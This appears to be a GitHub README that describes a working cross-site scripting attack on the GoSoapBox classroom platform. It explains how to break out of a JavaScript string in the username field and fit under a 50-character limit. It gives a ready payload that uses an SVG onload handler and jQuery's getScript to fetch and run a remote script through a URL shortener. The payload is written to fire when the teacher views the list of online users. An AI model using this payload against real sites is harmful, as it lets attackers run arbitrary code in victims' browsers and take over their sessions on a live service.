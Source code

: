 # GoSoapBox XSS

Input in this site is rarely filtered, and on the rare occasions that it is, 
it's done poorly, and in a way that can be bypassed with minimal effort.

Just to get it out of the way, here is the actual XSS vector:
`";//<svg onload="$.getScript('//example.com/abcd')"/>`

where example.com/abcd stands for any url to a script file

To understand why this vector is used, first, some background understanding of GoSoapBox is needed.

1. GoSoapBox uses a Firebase DB to hold its information

Because of this, at the bottom of the page, there's a snippet of JS that looks like this:

```
	var user_id          = "u53r1dstr1ng";
	var user_name        = "my name";
	var firebase_path    = "https://gosoapbox-prod.firebaseio.com";
	var event_identifier = "123456789";
	var moderator_view   = 0;
	var auth_token       = "R3allyrE4llyl0ngt0k3n";
```

This js MUST be fully executed in order for the name to appear in the list of online users.

The problem is, any typical XSS vector would not show up in the list of online users,
since the given username is lazily concatenated into the javascript like so:

```
	var user_id          = "u53r1dstr1ng";
	var user_name        = "<svg onload="alert(1)"></svg>"; // Syntax error
	var firebase_path    = "https://gosoapbox-prod.firebaseio.com";
	var event_identifier = "123456789";
	var moderator_view   = 0;
	var auth_token       = "R3allyrE4llyl0ngt0k3n";
```

thus causing a syntax error.

Another problem, at least in Chrome, is that the browser automatically closes a script tag a closing script tag is found in its JS code. Because of this, the XSS vector:

`<script>alert(1)</script>`

is seen in the DOM like this:

```
<script>
	var user_id          = "u53r1dstr1ng";
	var user_name        = "<script>alert(1)
</script> <!-- Undoubtedly syntax error -->

";
	var firebase_path    = "https://gosoapbox-prod.firebaseio.com";
	var event_identifier = "123456789";
	var moderator_view   = 0;
	var auth_token       = "R3allyrE4llyl0ngt0k3n";
</script>
```

thus causing a more horrifying syntax error.

The next restriction is that

2. GoSoapBox restricts names to 50 characters

This makes writing code directly into the XSS vector infeasible, and also makes most JS hosting sites useless as well, since their URLs are far too long.

So what is the solution? URL shorteners, of course!

Not just any URL shortener can be used, however. The shortener used must both use HTTPS and have a short enough url to fit in the small input box we are given.

I, in particular, opted to use snip.li as my url shortener, though any URL shortener can be used as long as it meets the criteria.

So, to create this XSS vector, we have the following restrictions:

- No `<script>` tags
- Must be JS friendly
- 50 char limit

In order to get around these challenges, I used the following facts:

- GoSoapBox has no SOP
- It also uses jQuery
- svg onload exists

So my solution ended up being quite simple:

`";//<svg onload="$.getScript('//cutt.ly/wrqQHy3')"/>`

- The `";//` comments out the XSS vector to prevent a syntax error
- The svg onload uses `$.getScript` to retrieve an external script
- The external script is retrieved via the shortened URL `snip.li/OwO`, which points to an example script that I made.

Now, when the event owner looks at the list of online users using the "See Who's Online" button, the javascript will execute.

At this point, any normal XSS attack can be performed using the online script.

\*The XSS vector disappears after the attacking event guest logs out, making this XSS semi-persistent.

Credits:

- My teacher, for using this site 800 million times
